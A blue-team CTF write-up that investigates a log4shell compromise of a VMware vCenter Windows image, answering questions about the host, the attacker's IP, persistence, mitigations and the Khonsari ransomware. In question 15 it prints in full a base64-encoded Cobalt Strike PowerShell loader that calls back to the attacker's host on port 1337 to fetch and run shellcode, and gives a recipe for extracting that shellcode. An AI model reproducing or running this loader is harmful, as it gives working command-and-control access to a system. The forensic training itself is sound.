

https://cyberdefenders.org/blueteam-ctf-challenges/86

## Scenario
>For the last week, log4shell vulnerability has been gaining much attention not for its ability to execute arbitrary commands on the vulnerable system but for the wide range of products that depend on the log4j library. Many of them are not known till now. We created a challenge to test your ability to detect, analyze, mitigate and patch products vulnerable to log4shell.

---
## Tools
- https://github.com/mandiant/speakeasy
- https://github.com/keydet89/RegRipper3.0
- https://www.autopsy.com/
- https://arsenalrecon.com/
- https://github.com/EricZimmerman/RECmd
- https://github.com/mandiant/flare-vm
- https://gchq.github.io/CyberChef/
- https://www.virustotal.com
- https://www.joesandbox.com
- https://github.com/dnSpy/dnSpy
- https://www.bytecodeviewer.com/
- https://github.com/ahmedkhlief/APT-Hunter
- https://github.com/WithSecureLabs/chainsaw

**#1 What is the computer hostname?**

This can easily be gathered if the image is loaded into `Autopsy` under the `Operating System Information` section.

Another way to get the timezone is to view it directly from the system registry `/img_DetectLog4Shell.E01/Windows/System32/config/SYSTEM`
Then the following registry key contains the ComputerName `ROOT\ControlSet001\Control\ComputerName\ComputerName\ComputerName`

`VCW65`

**#2 What is the Timezone of the compromised machine?**

This can be gathered in multiple ways one being by clicking on the `Data Source` we imported into `Autopsy` presenting you with the following information.

Which translates into `UTC-8` being the Timezone. 
Another way to get the computers Timezone, is to view it directly from the system registry `/img_DetectLog4Shell.E01/Windows/System32/config/SYSTEM`
Then the following registry key contains the Timezone `ROOT\ControlSet001\Control\TimeZoneInformation\TimeZoneKeyName`

`UTC-8`

**#3 What is the current build number on the system?**

The OS Build Number is visible in the software registry key hive `/img_DetectLog4Shell.E01/Windows/System32/config/SOFTWARE`
Under the `ROOT\Microsoft\Windows NT\CurrentVersion\CurrentBuildNumber` Registry Key.

`14393`

**#4 What is the computer IP?**

The computers IP is visible in the system registry key hive `/img_DetectLog4Shell.E01/Windows/System32/config/SYSTEM`
Under the `ROOT\ControlSet001\Control\Services\Tcpip\Parameters\Interfaces\{82e90056-fd8d-4a24-913a-fc46f535fddf}\DhcpIPAddress` Registry Key.

`192.168.112.139`

**#5 What is the domain computer was assigned to?**

This can easily be gathered if the image is loaded into `Autopsy` under the `Operating System Information` section.

Another way to gather the computers Domain, is to view it directly from the system registry `/img_DetectLog4Shell.E01/Windows/System32/config/SYSTEM`
Then the following registry key contains the computers Domain `ROOT\ControlSet001\Control\Services\Tcpip\Parameters\Domain`

`cyberdefenders.org`

**#6 When was myoussef user created?**

OS account information is stored within the SAM registry hive `/img_DetectLog4Shell.E01/Windows/System32/config/SAM`
Browsing the SAM registry and reading the data as clear text is not possible for all it's contained information from autopsy, so we need to parse it out with other tools,
if we want to get it straight from the SAM hive ourselves. Autopsy already parses out the account information we need from the hive with it's regripper plugin.
This can be viewed within the `OS Accounts` tab. Here all the OS accounts SID, Login Name, Creation Time etc. visible.
myoussef account information parsed out looks like this in Autopsy.

We can also parse out this information using the cmdline tool our selves from the dumped SAM registry hive.
Using the following command on the SAM registry hive from powershell we will get the same information as autopsy presented to us.
```Powershell
PS C:\Users\CTF\Desktop\rrv2.8> perl .\rip.pl -r D:\Windows\System32\config\SAM -p samparse | Select-String -Pattern "myoussef" -Context 0,10
Launching samparse v.20120722

> Username        : myoussef [1002]
> Full Name       : myoussef
  User Comment    :
  Account Type    :
  Account Created : Tue Dec 28 06:57:23 2021 Z
  Password Hint   : https://www.linkedin.com/in/0xmahmoudjo0/
  Last Login Date : Never
  Pwd Reset Date  : Tue Dec 28 07:41:13 2021 Z
  Pwd Fail Date   : Never
  Login Count     : 0
    --> Password does not expire
    --> Normal user account
```
`2021-12-28 06:57:23 UTC`

**#7 What is the user mhasan password hint?**

Using the same method as for the previous question, we can see that mhasan also is using his linkedin profile as his Password Hint.

```Powershell
PS C:\Users\CTF\Desktop\rrv2.8> perl .\rip.pl -r D:\Windows\System32\config\SAM -p samparse | Select-String -Pattern "mhasan" -Context 0,10
Launching samparse v.20120722

> Username        : mhasan [1028]
> Full Name       : mhasan
  User Comment    :
  Account Type    :
  Account Created : Tue Dec 28 07:38:29 2021 Z
  Password Hint   : https://www.linkedin.com/in/0xmohamedhasan/
  Last Login Date : Never
  Pwd Reset Date  : Tue Dec 28 07:38:29 2021 Z
  Pwd Fail Date   : Never
  Login Count     : 0
    --> Normal user account
    --> Password does not expire
```
`https://www.linkedin.com/in/0xmohamedhasan/`

**#8 What is the version of the VMware product installed on the machine?**

This can also be view with ease within Autopsy from the `Installed Programs`  tab.
This will present you with the following parsed out information.

The same information can also be gathered from the `/img_DetectLog4Shell.E01/Windows/System32/config/SOFTWARE` registry hive.
From the `ROOT\VMware, Inc.\vCenter Server\ProductVersion` registry key.

`6.7.0.40322`

**#9 What is the version of the log4j library used by the installed VMware product?**

We can get this answer by searching for `log4j` as a substring in Autopsy.
Where we can see the various versions of log4j being present and their location on the system as well(not in the picture).

`2.11.2`

**#10 What is the log4j library log level specified in the configuration file?**

The log4j logging level is set in the `log4j.properties` file.
https://www.javatpoint.com/log4j-logging-levels

`INFO`

**#11 The attacker exploited log4shell through an HTTP login request. What is the HTTP header used to inject payload?**

After finding the answer through research i attempted to search for artifacts on the image by searching for `X-Forwarded-For` in Autopsy and i did not spot any artifacts from the payload injection.
https://www.sprocketsecurity.com/resources/how-to-exploit-log4j-vulnerabilities-in-vmware-vcenter
`X-Forwarded-For`

**#12 The attacker used the log4shell.huntress.com payload to detect if vcenter instance is vulnerable. What is the first link of the log4huntress payload?**

Searching for `log4shell` in Autopsy as a substring, we find VMware log files that contain the payload.
The log file containing the payload is `/img_DetectLog4Shell.E01/ProgramData/VMware/vCenterServer/runtime/VMwareSTSService/logs/websso.log`

`log4shell.huntress.com:1389/b1292f3c-a652-4240-8fb4-59c43141f55a`

**#13 When was the first successful login to vsphere WebClient?**

The authentication logs for vsphere are located in `/img_DetectLog4Shell.E01/ProgramData/VMware/vCenterServer/runtime/VMwareSTSService/logs/audit_events.log`
https://williamlam.com/2019/04/enhanced-vcenter-server-audit-event-logging-in-vsphere-6-7-update-2.html

`28/12/2021 20:39:29 UTC`

**#14 What is the attacker's IP address?**

As seen in question 12 the IP of the attacker is `192.168.112.128`
We can now search for that as a substring in Autopsy and find additional attacker activity.
`192.168.112.128`

**#15 What is the port the attacker used to receive the cobalt strike reverse shell?**

I decided to run both chainsaw and APT-hunter on the extracted eventlogs from `/img_DetectLog4Shell.E01/Windows/System32/winevt/Logs/` 
```Powershell
PS C:\Users\CTF\Desktop\chainsaw> ./chainsaw_x86_64-pc-windows-msvc.exe hunt ..\150814-Logs\ -s sigma/ --mapping mappings/sigma-event-logs-all.yml -r rules/ --csv --output results

 ██████╗██╗  ██╗ █████╗ ██╗███╗   ██╗███████╗ █████╗ ██╗    ██╗
██╔════╝██║  ██║██╔══██╗██║████╗  ██║██╔════╝██╔══██╗██║    ██║
██║     ███████║███████║██║██╔██╗ ██║███████╗███████║██║ █╗ ██║
██║     ██╔══██║██╔══██║██║██║╚██╗██║╚════██║██╔══██║██║███╗██║
╚██████╗██║  ██║██║  ██║██║██║ ╚████║███████║██║  ██║╚███╔███╔╝
 ╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝ ╚══╝╚══╝
    By Countercept (@FranticTyping, @AlexKornitzer)

[+] Loading detection rules from: rules/, sigma/
[+] Loaded 2500 detection rules (464 not loaded)
[+] Loading forensic artefacts from: ..\150814-Logs\ (extensions: .evt, .evtx)
[+] Loaded 302 forensic artefacts (66.6 MB)
[+] Hunting: [========================================] 302/302 -                                                                                                                                                           [+] Created account_tampering.csv
[+] Created antivirus.csv
[+] Created lateral_movement.csv
[+] Created login_attacks.csv
[+] Created sigma.csv
[+] 2012 Detections found on 2009 documents
```
This was providing a decent overview but it did not work as well as APT-hunter imo.
```Powershell
PS C:\Users\CTF\Desktop> .\APT-Hunter.exe -p .\150814-Logs\ -tz America/Los_Angeles -o result

  /$$$$$$  /$$$$$$$  /$$$$$$$$         /$$   /$$                       /$$
 /$$__  $$| $$__  $$|__  $$__/        | $$  | $$                      | $$
| $$  \ $$| $$  \ $$   | $$           | $$  | $$ /$$   /$$ /$$$$$$$  /$$$$$$    /$$$$$$   /$$$$$$
| $$$$$$$$| $$$$$$$/   | $$    /$$$$$$| $$$$$$$$| $$  | $$| $$__  $$|_  $$_/   /$$__  $$ /$$__  $$
| $$__  $$| $$____/    | $$   |______/| $$__  $$| $$  | $$| $$  \ $$  | $$    | $$$$$$$$| $$  \__/
| $$  | $$| $$         | $$           | $$  | $$| $$  | $$| $$  | $$  | $$ /$$| $$_____/| $$
| $$  | $$| $$         | $$           | $$  | $$|  $$$$$$/| $$  | $$  |  $$$$/|  $$$$$$$| $$
|__/  |__/|__/         |__/           |__/  |__/ \______/ |__/  |__/   \___/   \_______/|__/

                                                                By : Ahmed Khlief , @ahmed_khlief
                                                                Version : 2.0

Analyzing 150814-Logs\Active Directory Web Services.evtx
Analyzing 150814-Logs\Application.evtx
Analyzing 150814-Logs\DFS Replication.evtx
Analyzing 150814-Logs\Directory Service.evtx
Analyzing 150814-Logs\DNS Server.evtx
.......
```
APT-hunter did a quick and awesome job dumping out it's results into a csv file which was parsed really nicely.
Under the powershell tab i found the following results which are immediatly suspicious and should be investigated further in the eventlog.

We now find the malicious powershell command in the powershell event log.
`/img_DetectLog4Shell.E01/Windows/System32/winevt/Logs/Windows PowerShell.evtx`

And in the operational log.
`/img_DetectLog4Shell.E01/Windows/System32/winevt/Logs/Microsoft-Windows-PowerShell%4Operational.evtx`

Looking for the suspicious powershell execution we stumple upon a suspicious Base64 encoded command by `Administrator.WIN-B633EO9K91M` in the users powershell console history file `ConsoleHost_history.txt`
`/img_DetectLog4Shell.E01/Users/Administrator.WIN-B633EO9K91M/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadline/ConsoleHost_history.txt`

The complete payload is seen below
```PowerShell
powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACIASAA0AHMASQBBAEEAQQBBAEEAQQBBAEEAQQBOAFYAVwBhAFcALwBpAFMAQgBEADkASABIADYARgBOADAASQBhADAAQwBRAGMAQwBlAFEAYQBqAFQAUgB0AHMATQBFAGUAVABEAEQARwBOAGcAUgBGAEsAMgBNADMAcABxAEYAOQBqAE4AMwBtAG0ATgBIADgAOQB5ADAAZgBZAFkAZABrAGQAMQBiAGEAMQBhADYAMABMAGEARgAyAE4AMQBXAHYAMwBxAHUAKwBTAHMAUABzAFUAbQBNAFIAcwBaAGsAUwBPAEoAaQA3AE4ASABBAFUAawA4AEQAbgByAGsAcQBsAE0AaQBhADIARgBYAEUAZgB1AFgAZgB2AFkATgBBAE4ASgBBAGIAZgBuADkANgBWAHkAbABZAGMAWQAyADkAQgBEACsAbgB3AHYASABTAFcAeABNAFIAMwBPAGUAMABRAE0AKwB4ADkATwBCADMAVwB4AG8AbgBQAGkASQBkAHIAawBzADkAdwBGAEkAUQBhAGoAcgBiAEUAeABqAEcAWQArAFoAYQBIADQAOQBDAHkATQBVAGYAOABOAGIAWQBaADkANgAxADAAZABoAFkAbQBDADAAcABzAHoAcQBZAFEAZwBsAHMAbQB2AHAAMwBOAG4AcwAxAEYAYQByAG4AeABNADEAZgA4AGoAZgAzAEUANAB4AEMAbABnAFcAMAB4ADQARABvADUAaABKAGoANwB4AG4AVQBDAHoAeQBNAHAAeABjAGEAKwAyAFcAZwAwAEwAcgBnAHgAagBpAEUAYwB6AG0AYQB1AFkASQBiADcALwBtAGQAWQBDAHYAYQBDADYARABDAEsAQQBnAFoARQBVAHYAWABmAE8ARwBHAFAANwBZAFQAaABNAGIAWQBjAE0AeQBJAHMAUgAyAG4AOQBCAEcATQBDAE0AcgBrAEgATABpAEUAKwBTAE8ARQBrAGYAMABuADgARgB6AGUAeABhAEkAVgB6AGwAMQBMAEoAQwA0AE8ASQBWAGMANAAzAE8AUABJAHgAdgBiADYAcQBPAFoAUwBlAFYANAArAEEATQBRAE4AaABnAEwAdQBIAHAAUABtAEEAeABVAFkAcwA0AGcAdwBTAHMAYwBTAGkAbQBlADUASwBNAFUAZABEADUARABnAFIAagB1AE8ATABQAEwAQwB6ADAAOABoAFgAWABBAHkAVwA5AEQAUgBIAHgAKwBsAEMAYQBQAFgARABQADYASABUAGkAYgBEAEYAOABHAFEARgBuAGYATQA3AG4AWAB5AE0ARwBPAHkAbwBCAGEAVAB2AEIAMQA3AE0AcwBqAGMANQB1AGEATQB4AHoARQBYAHMASwBPAEEANABQAGIASQBpADIAQgBzAFEANgArAGkAYwB4AFEASQBWAFcAZABwAC8AcwBNAHkAagBTAGMANwBmAFYASgBLAEMAbQB4AFoAaABZAGgAQgBwAHMARwBjAHAAZgBsAHkAawBPAC8ARgBGAHoAYQBwAHYAKwBRADQARgB3AHQAbgBTAE8AagB1AEYAVQBFAHAAaQBiAEEAZQArAEUAMgBjAFIAWQBUAG0ALwBsADgANAAvAHcAZQBHAHcAQQB5ADgAawBGAEsAZQBIAFoAWQBoADMAbAB6AGsATwBwAHgAQQA3AEMAdQBKAGcAeQBXAG8AZABiAFcAVgBGAFkAZABGADEANABLAEQAQgBFAG0AeQBKAGcANgBOAFMATwBVAHoAVgB4AHEAZQBPAHgAZQBGAEoARABiAHQAQgAyAHUAZgBvAHgANAA5AGoAaAB1AEkAWAAvADkAbwBZAEwAMwBHAEUAZgBSAHMANwBLAEQAKwBkAEIATQBjADEAeQBPADMAWQA4AGwAMQBjACsAVgBRADUATAB6AEQAVABmAEYAeAB3ADgAMQBHAGMAaAAzAHEAdQBGAGUAYQBIADIAcQBEAFkASwB0AFgAcQBFAGIAUwBIAGYAUgB6AEIASwBrAHQAKwBmAGsASwBBAFoAWABrAFMASgBiAGgAVQBoAGkAVgBMAGEASAByAFkAagB0AEoAZgB5AEwAMwBnAGkAVgBIAGcAYQBVAEUAUwAyAGIAaABTAHcARgAxAHcAeAA1AHUAagBXAGkAcgBOACsAUQBQAEQAOAArAGYAbgA4AHQAYQBLAGYAcgBYAFQAdQArAGMAagBOAHoAOABLADkANwBjADQAWQBzADgAUABEAHkAawBLAGIAOABYADQAcABwAFYAZQBVAHIANQBiAE8AYQA4AEwAcABOAHMAZQBkAFkATQBEAGcAaQBhAEkAWQA5AFgAZwBOAGQAMQA0AGsAaABSAEgAcABwAHIARQB0AEoAbABBAEIAdgBwAHEASgBaAEcAbQA1AE0ATAA0AG8AQQB2AHUAaQBEAFgAQwB6ADUATgBKAFgAOQBhADYAZgBSAFIAMQA5ADYAcwBsAGsAbQBKAEoANgBQAE0ASAB0AGMAawBqAHUAMAA5AHUARABaAG4AWABkAGYAQQBqAG4AWQBHADYAMwBrAHYASQA0AFQAMQAzADYAcwA0ADYATwA3AGwAcABCAHcAawBpAFcAUwB3AGkANwB2AHAAagBYADAATgA5AFYAWgBlAFkAMQBCAE8AMABnAGQAcgBoAFoAZQBSADAAMQA4AFoAbQBYAFQALwBvAHYAYwBGAFEAVwBvAEgAdgAwADEAQwB4AHEAYQBUAFkAbgBWAGkAMQArADMASgBYAEYALwBqAGQAWgBPADAANgBTADEARgBCAGoAZAAyAG0ASQArAGoAdAB4AG4AUQA2AE0AegBQAC8AcwBaAHoARwBVAG0AZQB4AG8AcQBWAGoAZgBwACsATwBlAGIATABUAHAARABTAE8AYQBxAHgANABVADIAdwAvAG0AUgB0AHgAcABoAHEAVQBOAHoAZQBrAGUAOQB2AGgAZQBYADEAYgBkADAAMQBCAGgASABrAHkARQBCAEkANgBxAGsATwBiAG0AZwBIAFMARgB1ADEAcgB5ADIAeQBIAEMAOAA5AG8AUQBHADUATQBiAGUAWgA3AEUAOABuAGYAcQA0AHQAUQBjAFEANgB6AGYAdgAzAGUAawBEAEoAdQBqAGcAdwBjACsAWgBRAG4AcgB3AHUAaQBxAGkANgBDAEcAOABQADMALwBQAHIAOQBOAEwASwBiAG8AVQBSAHMAawBVACsANgBHAHgARwBoAHcAawBZAFgAeAA1AFkANwBoAEwANQAzAFkANwBTADgANQBYADUAYgBOADIANgBhAGQASwBGAEoAUABnADgANQAxAFMARABPAEwATQAyAHYANwByAGsASQBlAGEAQwBRAHkAbgB5AFMATQBHAE8AdwAzAHQAYQBiAE8AcABIADMAdwBIAHYAWAA1AEwAOQAwADYATAAxAEUAbABxAEoARQBuAEYARABlADMAMwBWAFQAMgB2AFgATQBMADcAVQBuAGoAVgA2AHYARAAvAGEAegBLAGUAcQAyAFQAQQBlAHAAQwBHAG0AagArAHEAagBiADAAcABUADAAKwArAFoAKwBGAEwAYQBSAGcATgBBAGoASQBhAG4AZgBvAE4ARQBlADIAZgBvAGQAKwB2AGMAYgBiADkAaABYAHgAbQBHAGcAaQAvADYAVAAyAFcANAA4AEUAbgA2ADQAdQBBADcARABSAFcAKwAvAEcAbgB4AFYARQA2AFcARABnAHQAbgBWAFAAYgBOADcAWQBzAE0AeQA1AGYAaABwAEUAcgBzAFQAWQB5AGkAUABOAGQAUQBhAHIATgBHAHQASgBEAHEAdwBIAHUATwB0AGMANgAyADQARQA2AHEANgBRADYAMgAxAGYAegB6AHcAdQB1ADMAUgBUAFkAcQBYAFkAWABSAGoAVgB6AFAAYgAzAHEATABKAHIANQB5AGUAbQB5AGgAawBNACsAeQA0AC8ANABHADAALwAzAEYAVABGADcAYwA3AFoAcwBsAG0AdgBxAGUAOQBHADEAZwBuAE8ASwBPADkAVgB0AHAAQgAzADEAWgBSADEAdAArAFkAbgA4AGUAVAA5AHIASgB1AGEAUABKAHcAbwBqAGUASQAzAEkAYgBmAEgAZQB6AEoAcQB3ADMAWQBkAGwASQBiAFQAMwA0AFAAKwAxAG8ASQBMAGIAawBGACsAMQBxAFQAUgBvAEkAawBUAFoARQB6AGUAUABMAEkAegBwAEcAUQAvAFEAagBuAGYAagBvADEAeABkAFYATQBRADMAbwBXAFcAMQBkAEcAZwBWACsALwByAHQAZQAvAEMAbQAyAEYAdABQAGIARABOAGEAegBaAFIARABnAE0AMQBzAEwAaABzAGUAQgAzAEQAbgBkAGMAZQBaAEUAcwBsADkAbQByAE0ATQArAEwAbgBGAHAAYQAwADgAQwAxAGQAdgBLAFcAUQA2AGwAeQB2AEEAUgByAEEAKwB5ADcAYgBNAFcAOQA1ADUAbwBYAEoAMAA3AHYAVAA5ADkAeQB3AEgAZwBwAGIAeQA0AFgAagA5AEYAZgBtAE8AYQBsADAAUwB2AEEAMQAwAFUAUAAyAEwAMAB1AGUAcQBvAGwAcwB1AFEAcQBjAHoANABJADYAUABNAHYAaABaAGcAcQBWAEQAZQBsAHMANwBKAEwAZwA0AFYARgBIADQANwB2AHcAUABVAEgAbQBJADAAdwBTACsAQgBkAEwAWAAwAHYAegBYADkAZQAvADkAVQBVAEsANABwAFgARgBzADIANABoAFkAZgBLAFUAZgA4AEYAbAAyAFkAagBqAC8AUQAyAEwAZABYAFMAUABIACsAYgBuADcAawB5AHkAOQA3ACsAdAA2AGsAOQBxAFUAcwBhAHAAMwBqADUAcwBIAEUAcQBLAHcAZQBxAHAAcABYAG0ARwAxAFcAMwBwADYAcQBLAFoAKwAvAHEAYgBkAFEALwBLAGkATQBLADUARgBkAHAAVAA0AHMASgBjAEgAZwBwAEUASwB1AGwAZAAxAEIAQQBTAEMAbQBmAFEAdAByAEQAUQB3AHgAbABFAG4AZQBKAHYAMwBCADMARwBTAHQASgBtAEgASgBaACsAUQAwAE0AZgBnAFAARQBXAGwASABPAHIAdwBzAEEAQQBBAD0APQAiACkAKQA7AEkARQBYACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAASQBPAC4AUwB0AHIAZQBhAG0AUgBlAGEAZABlAHIAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4ARwB6AGkAcABTAHQAcgBlAGEAbQAoACQAcwAsAFsASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApACkAKQAuAFIAZQBhAGQAVABvAEUAbgBkACgAKQA7AA==
```
This is a cobalt strike powershell loader payload which injects the cobalt strike payload into the targeted process.
The shellcode contained within the powershell loader can be extracted with the following cyberchef recipe.
```
[{"op":"Drop bytes","args":[0,50,false]},{"op":"From Base64","args":["A-Za-z0-9+/=",true,false]},{"op":"Decode text","args":["UTF-16LE (1200)"]},{"op":"Regular expression","args":["User defined","[a-zA-Z0-9+/=]{40,}",true,true,false,false,false,false,"List matches"]},{"op":"From Base64","args":["A-Za-z0-9+/=",true,false]},{"op":"Gunzip","args":[]},{"op":"Regular expression","args":["User defined","[a-zA-Z0-9+/=]{40,}",true,true,false,false,false,false,"List matches"]},{"op":"From Base64","args":["A-Za-z0-9+/=",true,false]}]
```

Here in the output section of the cyberchef recipe we can see the Cobalt Strike C2 IP and the specified User Agent in clear text.

An almost identical powershell loader is analyzed here by OALabs herecore https://www.youtube.com/watch?v=H-An4Tx__t8

The extracted shellcode when downloaded and uploaded to virustotal triggers several Cobalt Strike yara rule scanners.
https://www.virustotal.com/gui/file/dbe71c0a7079499f078b41b2c5b7b3fc613001b9e2ea9c68d7c38520b7e7a8b5

Running the extracted shellcode through Mandiants shellcode emulator, we can observe the shellcodes behavior.
https://blog.securehat.co.uk/cobaltstrike/extracting-config-from-cobaltstrike-stager-shellcode
```powershell
PS C:\Users\CTF\Downloads> speakeasy -t .\download.dat -r -a amd64
* exec: shellcode
0x10ef: 'kernel32.LoadLibraryA("wininet")' -> 0x7bc00000
0x1107: 'wininet.InternetOpenA(0x0, 0x0, 0x0, 0x0, 0x0)' -> 0x20
0x1126: 'wininet.InternetConnectA(0x20, "192.168.112.128", 0x539, 0x0, 0x0, 0x3, 0x0, 0x0)' -> 0x24
0x1145: 'wininet.HttpOpenRequestA(0x24, 0x0, "/NOqO", 0x0, 0x0, 0x0, "INTERNET_FLAG_DONT_CACHE | INTERNET_FLAG_KEEP_CONNECTION | INTERNET_FLAG_NO_AUTO_REDIRECT | INTERNET_FLAG_NO_UI | INTERNET_FLAG_RELOAD", 0x0)' -> 0x28
0x1169: 'wininet.HttpSendRequestA(0x28, "User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; InfoPath.2)\r\\n", 0xffffffffffffffff, 0x0, 0x11d6)' -> 0x1
0x132a: 'kernel32.VirtualAlloc(0x0, 0x400000, 0x1000, "PAGE_EXECUTE_READWRITE")' -> 0x450000
0x1348: 'wininet.InternetReadFile(0x28, 0x450000, 0x2000, 0x1203e70)' -> 0x1
0x1348: 'wininet.InternetReadFile(0x28, 0x451000, 0x2000, 0x1203e70)' -> 0x1
0x450012: Unhandled interrupt: intnum=0x3
0x450012: shellcode: Caught error: unhandled_interrupt
* Finished emulating
```
- https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya
- https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopena
- https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-httpsendrequesta
- https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetconnecta
- https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-httpopenrequesta
- https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc
- https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetreadfile
The hexadecimal number in the InternetConnectA win32 api function call is the port number, as noted in the functions msdn documentation.
Converting it to decimal we get `1337` using bash.
```Bash
midas@Slave ~> echo "ibase=16;539"|bc
1337
```
Or converting it to it's decimal representation with the following CyberChef recipe `[{"op":"From Base","args":[16]}]`

We can also verify this again by running the malicious powershell loader and dynamically analyzing it in our VM with fakenet running.

We can also analyze the powershell loader in an online sandbox like JoeSandbox.
https://www.joesandbox.com/analysis/780004/0/html
`1337`

I was not able to get this config extraction method working on this shellcode.
https://michaelkoczwara.medium.com/cobalt-strike-powershell-payload-analysis-eecf74b3c2f7

**#16 What is the script name published by VMware to mitigate log4shell vulnerability?** 

```
IMPORTANT: vc_log4j_mitigator.py will now mitigate CVE-2021-44228 and CVE-2021-45046 on vCenter Server end-to-end without extra steps. This script replaces the need to run remove_log4j_class.py and vmsa-2021-0028-kb87081.py independently. However, it is not necessary to run if you've already used those in your environment.
```
https://kb.vmware.com/s/article/87081
`vc_log4j_mitigator.py`

**#17 In some cases, you may not be able to update the products used in your network. What is the system property needed to set to 'true' to work around the log4shell vulnerability?**

```
In case the Log4j 2 vulnerable component cannot be updated, Log4j versions 2.10 to 2.14.1 support the parameter log4j2.formatMsgNoLookups to be set to ‘true’, to disable the vulnerable feature. Ensure this parameter is configured in the startup scripts of the Java Virtual Machine:    
-Dlog4j2.formatMsgNoLookups=true.
```
https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/
`log4j2.formatMsgNoLookups`

**#18 What is the log4j version which contains a patch to CVE-2021-44228?**

As mentioned in the Microsoft log4shell notice the initial patch for CVE-2021-44228 was in log4j version 2.15.0.
https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/
`2.15.0`

**#19 Removing JNDIlookup.class may help in mitigating log4shell. What is the sha256 hash of the JNDILookup.class?**

In order to get the sha256 file hash of the JNDILookup.class you will need to extract it from the log4j-core jar file.
The jar file is found at the following file path `img_DetectLog4Shell.E01/ProgramData/VMware/vCenterServer/runtime/VMwareSTSService/webapps/ROOT/WEB-INF/lib/log4j-core-2.11.2.jar`.
The log4shell mitigation is mentioned in the below link as so  `Otherwise, in any release other than 2.16.0, you may remove the JndiLookup class from the classpath: zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`
https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/
Once the JNDILookup.class is extracted the file hash can be retrieved with the following powershell cmdlet.
```Powershell
PS C:\Users\CTF\Desktop> Get-FileHash .\JndiLookup.class

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          0F038A1E0AA0AFF76D66D1440C88A2B35A3D023AD8B2E3BAC8E25A3208499F7E       C:\Users\CTF\Desktop\JndiLookup.class
```

**#20 Analyze JNDILookup.class. What is the value stored in the CONTAINER_JNDI_RESOURCE_PATH_PREFIX variable?**

Opening the JNDILookup.class in a Java decompiler such as `Bytecode Viewer` you will be able to see the answer to the question.

```
public class JndiLookup extends AbstractLookup {
   private static final Logger LOGGER = StatusLogger.getLogger();
   private static final Marker LOOKUP = MarkerManager.getMarker("LOOKUP");
   static final String CONTAINER_JNDI_RESOURCE_PATH_PREFIX = "java:comp/env/";

```
`java:comp/env/`

**#21 What is the executable used by the attacker to gain persistence?**

Going for the low hanging fruits i extracted the `Administrator.WIN-B633EO9K91M` accounts registry hive from the following file path `/img_DetectLog4Shell.E01/Users/Administrator.WIN-B633EO9K91M/NTUSER.dat`
I opted for this specific users registry hive since this was the same user running the previous cobalt strike powershell loader.
After that i ran Eric Zimmermans tool `RECmd` on the registry hive looking for common registry persistence methods. 
```Powershell
PS C:\Users\CTF\Desktop\RECmd> .\RECmd.exe --bn .\BatchExamples\RegistryASEPs.reb -d ..\ --nl --csv ../output
RECmd version 2.0.0.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/RECmd

Note: Enclose all strings containing spaces (and all RegEx) with double quotes

Command line: --bn .\BatchExamples\RegistryASEPs.reb -d ..\ --nl --csv ../output


Total hives found: 1

Processing hive ..\NTUSER.DAT


Found 31 key/value pairs across 1 file
Total search time: 0.166 seconds
Path to ../output doesn't exist. Creating...

Saving batch mode CSV file to ../output\20230107025751_RECmd_Batch_RegistryASEPs_Output.csv
```
The following command generated a csv file where a suspicious run key is present.

`C:\Users\Adiminstrator\Desktop\baaaackdooor.exe`

**#22 When was the first submission of ransomware to virustotal?**

When mounting the image with arsenal image mounter and browsing to the mounted image in windows file explorer a file is immediatly suspicious.

This executable is the ransomware.
https://www.virustotal.com/gui/file/f2e3f685256e5f31b05fc9f9ca470f527d7fdae28fa3190c8eba179473e20789/details
`First Submission 2021-12-11 22:57:01 UTC`

**#23 The ransomware downloads a text file from an external server. What is the key used to decrypt the URL?**

The following blog post is great and covers everything that we want to know abouth the ransomware.
https://www.netskope.com/blog/khonsari-new-ransomware-delivered-through-log4shell
Armed with this analysis we can replicate this easily using dnspy ourselves.
Here is the decryption algorithm for the encrypted strings in the malware.

Next we can see this decryption function is called where the decrytion key and the encrypted string is fed in as arguments to the function.

`GoaahQrC`

**#24 What is the ISP that owns that IP that serves the text file?**

In the Virustotal analysis Relations tab, we see that the ransomware is attempting to fetch a txt file from an IP address `3.145.115.94`
https://www.virustotal.com/gui/file/f2e3f685256e5f31b05fc9f9ca470f527d7fdae28fa3190c8eba179473e20789/relations
The IP is owned by `Amazon` and it is a part of their ec2 service in AWS.
https://dnslytics.com/ip/3.145.115.94
`Amazon`

**#25 The ransomware check for extensions to exclude them from the encryption process. What is the second extension the ransomware checks for?**

This can also be read in the following blog post.
https://www.netskope.com/blog/khonsari-new-ransomware-delivered-through-log4shell

